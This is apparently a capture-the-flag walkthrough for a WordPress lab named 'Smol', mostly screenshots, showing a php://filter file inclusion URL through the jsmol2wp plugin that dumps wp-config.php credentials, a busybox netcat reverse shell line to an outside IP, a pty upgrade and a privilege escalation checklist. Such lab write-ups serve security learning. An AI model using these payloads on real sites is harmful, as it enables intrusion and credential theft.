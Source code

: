 ```yaml
---

title: "Smol"  
date: "2025-4-16"  
thumbnail: "/assets/img/thumbnail/smol.png"

---
```


# Smol
---
**Challenges Difficulty: Medium**  
**Category: Privilege Escalation**

## Walkthrough 

---



### **Smol**

```bash
wpscan --url [http://www.smol.thm](http://www.smol.thm/)
```

![image.png](/assets/img/posts/smol/image%2016.png)

![image.png](/assets/img/posts/smol/image%2017.png)

[http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php](http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php)

![image.png](/assets/img/posts/smol/image%2018.png)

```bash
/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'kbLSF2Vop#lw3rjDZ629*Z%G' );
```

from the comment section we can get to a log in page

![image.png](/assets/img/posts/smol/image%2019.png)

![image.png](/assets/img/posts/smol/image%2020.png)

![image.png](/assets/img/posts/smol/image%2021.png)

just for fun 😂

![image.png](/assets/img/posts/smol/image%2022.png)

![image.png](/assets/img/posts/smol/image%2023.png)

![image.png](/assets/img/posts/smol/image%2024.png)

![image.png](/assets/img/posts/smol/image%2025.png)

![image.png](/assets/img/posts/smol/image%2026.png)

`busybox nc **10.11.130.37** **4444** -e **sh**`

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png](/assets/img/posts/smol/image%2027.png)

![image.png](/assets/img/posts/smol/image%2028.png)

sandiegocalifornia

![image.png](/assets/img/posts/smol/image%2029.png)

- [x]  sudo -l
- [x]  /cat /etc/crontab
- [x]  suid
- [x]  capabilitys

![image.png](/assets/img/posts/smol/image%2030.png)

![image.png](/assets/img/posts/smol/image%2031.png)

![image.png](/assets/img/posts/smol/image%2032.png)

latral movment

![image.png](/assets/img/posts/smol/image%2033.png)

![image.png](/assets/img/posts/smol/image%2034.png)

![image.png](/assets/img/posts/smol/image%2035.png)

![image.png](/assets/img/posts/smol/image%2036.png)

![image.png](/assets/img/posts/smol/image%2037.png)

![image.png](/assets/img/posts/smol/image%2038.png)